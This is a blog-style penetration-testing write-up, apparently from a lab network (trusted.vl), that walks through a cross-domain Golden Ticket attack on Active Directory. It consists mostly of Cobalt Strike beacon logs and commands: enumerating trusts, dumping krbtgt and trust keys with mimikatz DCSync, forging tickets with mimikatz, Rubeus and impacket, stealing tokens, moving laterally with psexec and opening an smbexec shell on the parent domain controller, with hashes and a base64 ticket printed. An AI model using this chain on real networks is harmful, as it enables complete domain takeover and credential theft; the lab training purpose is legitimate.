







> Author : lineeralgebra
{:.prompt-tip}

Golden ticket attack is one of the most things i ever meet at LABs/Prolabs and big networks. 

I will share all details about it but i will share my own methodology in the end which is work for me more more more great.

Golden ticket is signed and encrypted with the “krbtgt” account hash.

The krbtgt account hash can be use to impersonate any user with any privileges.

> In short, if you control the KRBTGT hash, you control the entire Active Directory..
> 

There is too many ways to understand methodology of Golden Ticket attack. In thi Section i will try to explain evertying i know.

Before Start grab values which we need we need great enumeration. Because we have to be sure before we do. Lets import PowerView.ps1 and do enum.

## Enum

```jsx
[04/14 00:30:02] beacon> powershell-import /home/elliot/tools/PowerView.ps1
[04/14 00:30:02] [*] Tasked beacon to import: /home/elliot/tools/PowerView.ps1
[04/14 00:30:03] [+] host called home, sent: 143784 bytes
```

### Enumerating Domain Trusts with PowerView

```jsx
[04/14 00:30:22] beacon> powerpick Get-ADTrust -Filter *
[04/14 00:30:22] [*] Tasked beacon to run: Get-ADTrust -Filter * (unmanaged)
[04/14 00:30:22] [+] host called home, sent: 137994 bytes
[04/14 00:30:27] [+] received output:

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=trusted.vl,CN=System,DC=lab,DC=trusted,DC=vl
ForestTransitive        : False
IntraForest             : True
IsTreeParent            : False
IsTreeRoot              : False
Name                    : trusted.vl
ObjectClass             : trustedDomain
ObjectGUID              : c8005918-3c50-4c33-bcaa-90c76f46561c
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=lab,DC=trusted,DC=vl
Target                  : trusted.vl
TGTDelegation           : False
TrustAttributes         : 32
TrustedPolicy           : 
TrustingPolicy          : 
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

I used `powerpick Get-ADTrust -Filter *` to enumerate all domain trust relationships. This helps identify other domains I might access using a forged Golden Ticket, especially in environments with external or forest trusts.

```jsx
[04/14 00:35:32] beacon> powerpick Get-DomainTrust -Filter *
[04/14 00:35:32] [*] Tasked beacon to run: Get-DomainTrust -Filter * (unmanaged)
[04/14 00:35:32] [+] host called home, sent: 137994 bytes
[04/14 00:35:37] [+] received output:

SourceName      : lab.trusted.vl
TargetName      : trusted.vl
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 9/14/2022 6:42:24 PM
WhenChanged     : 4/14/2025 1:21:54 AM

```

In this case, there’s a **bidirectional trust** between `lab.trusted.vl` and `trusted.vl`, meaning tickets from either domain are accepted in the other—perfect for cross-domain exploitation using a Golden Ticket.

Noice now we can do Golden Ticket attack but we need something. Lets see what we needs and how we can grab.

## Attack

- Requirements :
• Domain SID
• Krbtgt hash
• Domain name
• SIDS (in Cross-Forest Attacks)

### mimikatz

#### with AES KEY

Mimikatz is the easiest way to Golden Ticket Attack cause we can grab all values we want in 1 command.

```jsx
[04/14 00:46:32] beacon> mimikatz lsadump::trust /patch
```



our unmodify command

```jsx
mimikatz kerberos::golden /user:Administrator /domain:<child-domain> /sid:<SID> /sids:<SIDS>-519 /aes256:<AES-key> /service:krbtgt /target:<parent-domain> /ticket:golden.kirbi
```

afteer modify

```jsx
[04/14 01:08:25] beacon> mimikatz kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /aes256:dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 /service:krbtgt /target:trusted.vl /outfile:golden2.kirbi
[04/14 01:08:25] [*] Tasked beacon to run mimikatz's kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /aes256:dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 /service:krbtgt /target:trusted.vl /outfile:golden2.kirbi command
[04/14 01:08:25] [+] host called home, sent: 814339 bytes
[04/14 01:08:28] [+] received output:
User      : Administrator
Domain    : lab.trusted.vl (LAB)
SID       : S-1-5-21-2241985869-2159962460-1278545866
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ; 
ServiceKey: dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 - aes256_hmac      
Service   : krbtgt
Target    : trusted.vl
Lifetime  : 4/14/2025 5:08:27 AM ; 4/12/2035 5:08:27 AM ; 4/12/2035 5:08:27 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

```

#### with krbtgt hash

we can also do with krbtgt hash directly but we need one more command for krbtgt hash

For krbtgt hash

```jsx
[04/14 00:59:46] beacon> mimikatz lsadump::dcsync /domain:lab.trusted.vl /all
[SNIP]
SAM Username         : krbtgt
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Object Security ID   : S-1-5-21-2241985869-2159962460-1278545866-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: c7a03c565c68c6fac5f8913fab576ebd
```

unmodify command

```jsx
kerberos::golden /user:Administrator /domain:domain /sid:<lab.trusted.vl SID> /sids:<Entreprise Admins SID> /krbtgt:<hash> /ptt
```

after modify

```jsx
[04/14 01:10:34] beacon> mimikatz kerberos::golden /user:Administrator /domain:trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt
[04/14 01:10:34] [*] Tasked beacon to run mimikatz's kerberos::golden /user:Administrator /domain:trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt command
[04/14 01:10:34] [+] host called home, sent: 814339 bytes
[04/14 01:10:36] [+] received output:
User      : Administrator
Domain    : trusted.vl (TRUSTED)
SID       : S-1-5-21-2241985869-2159962460-1278545866
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ; 
ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt      
Lifetime  : 4/14/2025 5:10:36 AM ; 4/12/2035 5:10:36 AM ; 4/12/2035 5:10:36 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ trusted.vl' successfully submitted for current session
```

noice!!

### Rubeus

We can also do with Rubeus. but it will be hard to dump everything we need with rubeus insted of this im goonna use powerpick command.

#### find SID Values

```jsx
[04/14 01:12:30] beacon> powerpick Get-DomainSid -Domain lab.trusted.vl
[04/14 01:12:30] [*] Tasked beacon to run: Get-DomainSid -Domain lab.trusted.vl (unmanaged)
[04/14 01:12:30] [+] host called home, sent: 137994 bytes
[04/14 01:12:34] [+] received output:
S-1-5-21-2241985869-2159962460-1278545866

[04/14 01:12:48] beacon> powerpick Get-DomainSid -Domain trusted.vl
[04/14 01:12:48] [*] Tasked beacon to run: Get-DomainSid -Domain trusted.vl (unmanaged)
[04/14 01:12:48] [+] host called home, sent: 137994 bytes
[04/14 01:12:53] [+] received output:
S-1-5-21-3576695518-347000760-3731839591
```

and bommm!!!

```jsx
[04/14 01:14:59] beacon> execute-assembly /home/elliot/tools/Rubeus.exe golden /aes256:dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /nowrap
[04/14 01:14:59] [*] Tasked beacon to run .NET program: Rubeus.exe golden /aes256:dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /nowrap
[04/14 01:15:02] [+] host called home, sent: 556574 bytes
[04/14 01:15:04] [+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LAB.TRUSTED.VL (LAB)
[*] SID            : S-1-5-21-2241985869-2159962460-1278545866
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : DD8CE437174836420C9CCF924441670A61EA1703A107DADB70F79EF0F95AA473
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : DD8CE437174836420C9CCF924441670A61EA1703A107DADB70F79EF0F95AA473
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : lab.trusted.vl

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@lab.trusted.vl'

[*] AuthTime       : 4/14/2025 5:15:03 AM
[*] StartTime      : 4/14/2025 5:15:03 AM
[*] EndTime        : 4/14/2025 3:15:03 PM
[*] RenewTill      : 4/21/2025 5:15:03 AM

[*] base64(ticket.kirbi):

      doIFVTCCBVGgAwIBBaEDAgEWooIEOjCCBDZhggQyMIIELqADAgEFoRAbDkxBQi5UUlVTVEVELlZMoiMwIaADAgECoRowGBsGa3JidGd0Gw5sYWIudHJ1c3RlZC52bKOCA+4wggPqoAMCARKhAwIBA6KCA9wEggPYOrWU9XvLWqaLxeeqQFHPqaPbbPBXeExUBKVj4cABUZEM60L89/O/sa4McbW4W/BW/4qpEkquuMDqORA56UScDWbDmP5n2mTH/xmEnSRP6i0YkGrnGY3Afqr1Hljv/NxzZAomT9NxTIzBkAjL73ob7bgt8tMSQDfpFHxtFpmEmJKflg/eSMquht7XurwTlFDLYi/rxoxRqXpANLBbebng7Ubh7iAJOwRabQjpOidTIHjbjDXM2vsnF5dnjzAbeECylLW3rpHO0KnLKO3rDFZH7y0st+aUduuh8b50fia9dz3H3oSm2Ro3In0U1BzgcMV/708zYc+T6TDYsaQVdNekKnBvfUAjPfvtHDnzPBVAZvt0Ks/6NERFAjFFMf5uxnfMCfDmYPbw+WI/ReJyr5kc+tPWFNUaehqNF5+wZuTA8PEuFUBADLlZujp3CgDjN6ZfTB3vl/cXjOo8ZQdL2jTHkn1ne08ZNBYC0gExRQ5mKp++mBI3IJU5fKSIz3k1lpqgqS2G9zOIXUh/AEoFQNq0KiYwm1E+XYSPo2iZGHGuSlY6iBnyRbu+EzmgEW/Y9jCytQuzRkV6ake6GiCnwHslCUeWXJGYdziTXuyPnp5ukur7iDOgCK6cY5toKnHxTerIkAntUmD2/AyTh/C7ZB7C9N2aWEYK/PbqjmQvMUSZgNavFuD1hKQhozHPTQ6u7ctqeLOxWobjAQybQe1vwZNRaps7x088sPby676SO7hXMXFNacYbWXC3pCWj7aY0DKwOph7KsVHBCE5qmAZOQFdwIYGnK75I+mWFupz1pKTuxJo0S1Fit4FmBywXBlaGWbNpLlncGZqPHwrTaon2PChoKQplLs0LmZ23BzEJJuoNp4L//Kk6Ffrr1yRvMbCQoJxuH3WMB4vpoeWm34cCHHSC18KzbqX0ZmuFNyIMZyZumn7k487oTgoYUjpYtWnRZX0FDWM0bN9r8L08KqXzPWUhSlZdJe4lYVqYxSwGDAcgreP9h2YpS4iqMzrwOMSmxUMyT7E6BQBSSyN6wp7fKgsM3UCA89ei6xane/8KVKt3fe3Kmz7VogKDhVpTeiNfVS67gcdLRVdo33AtbeA8CyTF1zO8Bxl+odt7RodP51xN/B5fZyEqCCcCMarr1BXsTujfJJ+v2U7R2rLtszhyrFpiScqVE4b04L6QNq3Qso0jOv6wowTIu3TaOJz8FQ91pkZG6iUPqwn3mbiNtB+SXDFRj/ayfLD7W1wOoBZu6Ms6q08G15EIcoTUSGJ6eNJGCP7UBpQTmWkArC86SMZAJgGr+q6ZIUvotMX9o4IBBTCCAQGgAwIBAKKB+QSB9n2B8zCB8KCB7TCB6jCB56ArMCmgAwIBEqEiBCBxlFDIRKV/aMT4A4ojghXdEz5Z2JRgqFv6aEbx/XCEG6EQGw5MQUIuVFJVU1RFRC5WTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEDgAACkERgPMjAyNTA0MTQwNTE1MDNapREYDzIwMjUwNDE0MDUxNTAzWqYRGA8yMDI1MDQxNDE1MTUwM1qnERgPMjAyNTA0MjEwNTE1MDNaqBAbDkxBQi5UUlVTVEVELlZMqSMwIaADAgECoRowGBsGa3JidGd0Gw5sYWIudHJ1c3RlZC52bA==

```

and

```jsx
[04/14 01:25:52] beacon> execute-assembly /home/elliot/tools/Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/labdc.lab.trusted.vl /user:labdc$ /nowrap /ticket:doIFVTCCBVGgAwIBBaEDAgEWooIEOjCCBDZhggQyMIIELqADAgEFoRAbDkxBQi5UUlVTVEVELlZMoiMwIaADAgECoRowGBsGa3JidGd0Gw5sYWIudHJ1c3RlZC52bKOCA+4wggPqoAMCARKhAwIBA6KCA9wEggPYOrWU9XvLWqaLxeeqQFHPqaPbbPBXeExUBKVj4cABUZEM60L89/O/sa4McbW4W/BW/4qpEkquuMDqORA56UScDWbDmP5n2mTH/xmEnSRP6i0YkGrnGY3Afqr1Hljv/NxzZAomT9NxTIzBkAjL73ob7bgt8tMSQDfpFHxtFpmEmJKflg/eSMquht7XurwTlFDLYi/rxoxRqXpANLBbebng7Ubh7iAJOwRabQjpOidTIHjbjDXM2vsnF5dnjzAbeECylLW3rpHO0KnLKO3rDFZH7y0st+aUduuh8b50fia9dz3H3oSm2Ro3In0U1BzgcMV/708zYc+T6TDYsaQVdNekKnBvfUAjPfvtHDnzPBVAZvt0Ks/6NERFAjFFMf5uxnfMCfDmYPbw+WI/ReJyr5kc+tPWFNUaehqNF5+wZuTA8PEuFUBADLlZujp3CgDjN6ZfTB3vl/cXjOo8ZQdL2jTHkn1ne08ZNBYC0gExRQ5mKp++mBI3IJU5fKSIz3k1lpqgqS2G9zOIXUh/AEoFQNq0KiYwm1E+XYSPo2iZGHGuSlY6iBnyRbu+EzmgEW/Y9jCytQuzRkV6ake6GiCnwHslCUeWXJGYdziTXuyPnp5ukur7iDOgCK6cY5toKnHxTerIkAntUmD2/AyTh/C7ZB7C9N2aWEYK/PbqjmQvMUSZgNavFuD1hKQhozHPTQ6u7ctqeLOxWobjAQybQe1vwZNRaps7x088sPby676SO7hXMXFNacYbWXC3pCWj7aY0DKwOph7KsVHBCE5qmAZOQFdwIYGnK75I+mWFupz1pKTuxJo0S1Fit4FmBywXBlaGWbNpLlncGZqPHwrTaon2PChoKQplLs0LmZ23BzEJJuoNp4L//Kk6Ffrr1yRvMbCQoJxuH3WMB4vpoeWm34cCHHSC18KzbqX0ZmuFNyIMZyZumn7k487oTgoYUjpYtWnRZX0FDWM0bN9r8L08KqXzPWUhSlZdJe4lYVqYxSwGDAcgreP9h2YpS4iqMzrwOMSmxUMyT7E6BQBSSyN6wp7fKgsM3UCA89ei6xane/8KVKt3fe3Kmz7VogKDhVpTeiNfVS67gcdLRVdo33AtbeA8CyTF1zO8Bxl+odt7RodP51xN/B5fZyEqCCcCMarr1BXsTujfJJ+v2U7R2rLtszhyrFpiScqVE4b04L6QNq3Qso0jOv6wowTIu3TaOJz8FQ91pkZG6iUPqwn3mbiNtB+SXDFRj/ayfLD7W1wOoBZu6Ms6q08G15EIcoTUSGJ6eNJGCP7UBpQTmWkArC86SMZAJgGr+q6ZIUvotMX9o4IBBTCCAQGgAwIBAKKB+QSB9n2B8zCB8KCB7TCB6jCB56ArMCmgAwIBEqEiBCBxlFDIRKV/aMT4A4ojghXdEz5Z2JRgqFv6aEbx/XCEG6EQGw5MQUIuVFJVU1RFRC5WTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEDgAACkERgPMjAyNTA0MTQwNTE1MDNapREYDzIwMjUwNDE0MDUxNTAzWqYRGA8yMDI1MDQxNDE1MTUwM1qnERgPMjAyNTA0MjEwNTE1MDNaqBAbDkxBQi5UUlVTVEVELlZMqSMwIaADAgECoRowGBsGa3JidGd0Gw5sYWIudHJ1c3RlZC52bA==
```

wit TGS

```jsx
[04/14 01:26:28] beacon> execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:LABDC /username:Administrator /password:FakePass /ticket:doIFyD[...]MuaW8=
```



```jsx

[04/14 01:27:12] beacon> steal_token 1788
[04/14 01:27:15] [*] Tasked beacon to steal token from PID 1788
[04/14 01:27:16] [+] host called home, sent: 12 bytes
[04/14 01:27:16] [+] Impersonated NT AUTHORITY\SYSTEM
[04/14 01:27:32] beacon> cd \\TRUSTEDDC.trusted.vl\c$\Windows\Tasks
[04/14 01:27:34] [*] cd \\TRUSTEDDC.trusted.vl\c$\Windows\Tasks
[04/14 01:27:34 [+] host called home, sent: 39 bytes
[04/14 01:27:45] beacon> jump psexec64 TRUSTEDDC.trusted.vl smb_listener
[04/14 01:27:46] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-f79a68a3-db25-4736-97f7-b03d44a01337) on TRUSTEDDC.trusted.vl via Service Control Manager (\\TRUSTEDDC.trusted.vl\ADMIN$\863b3eb.exe)
[04/14 01:27:46] [+] host called home, sent: 359276 bytes
[04/14 01:27:47] [+] received output:
Started service 863b3eb on TRUSTEDDC.trusted.vl
[04/14 01:27:48] [+] established link to child beacon: 10.10.120.10
```



### Linux Abuse

```python
ticketer.py -aesKey dd8ce437174836420c9ccf924441670a61ea1703a107dadb70f79ef0f95aa473 -domain trusted.vl -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 -extra-pac Administrator -user-id 500 -duration 1    
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for trusted.vl/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

export it and look at klist

```jsx
export KRB5CCNAME=Administrator.ccache
klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@TRUSTED.VL

Valid starting       Expires              Service principal
04/14/2025 01:42:54  04/14/2025 02:42:54  krbtgt/TRUSTED.VL@TRUSTED.VL
        renew until 04/14/2025 02:42:54
```

noice!!!

## Bonus (My-Approach)

In this part i ill try to show my approach i hope u will love it!

I will use the AES key of the trust, to make a golden ticket for that domain. So will need the SID of the Current domain and the sid of enterprise admins of target domain.



First of all i will create golden.kirbi with mimikatz

```jsx
[04/15 03:12:01] beacon> mimikatz kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /aes256:a7880265164670ddfc041c250bdf7d8166bf8ca0c06d86c3ddec12620fdfb800 /target:TRUSTED.VL /ticket:golden.kirbi
```



Lets see where we saved file

```jsx
[04/15 03:12:23] beacon> pwd
[04/15 03:12:23] [*] Tasked beacon to print working directory
[04/15 03:12:23] [+] host called home, sent: 8 bytes
[04/15 03:12:24] [*] Current directory is C:\xampp\htdocs\dev
```

now i will use rubeus to ask a tgs for cifs on parent domain but i will save as admin.kirbi cause i wanna convert it to cchace for my Linux Abuse

```jsx
[04/15 03:16:07] beacon> execute-assembly /home/elliot/tools/Rubeus.exe asktgs /ticket:C:\xampp\htdocs\dev\golden.kirbi /service:cifs/TRUSTEDDC.TRUSTED.VL /dc:TRUSTEDDC.TRUSTED.VL /ptt /outfile:admin.kirbi
```



and



Lets convert it to ccache after install

```jsx
python3 /opt/impacket/examples/ticketConverter.py admin.kirbi admin.ccache
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

export it and verify

```jsx
export KRB5CCNAME=admin.ccache 
klist
Ticket cache: FILE:admin.ccache
Default principal: Administrator@LAB.TRUSTED.VL

Valid starting       Expires              Service principal
04/15/2025 03:16:09  04/15/2025 13:16:09  cifs/TRUSTEDDC.TRUSTED.VL@TRUSTED.VL
        renew until 04/22/2025 03:16:09

```

smbexec.

```jsx
python3 /opt/impacket/examples/smbexec.py administrator@TRUSTEDDC.TRUSTED.VL -k -no-pass -dc-ip 10.10.212.197
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>hostname
trusteddc

C:\Windows\system32>
```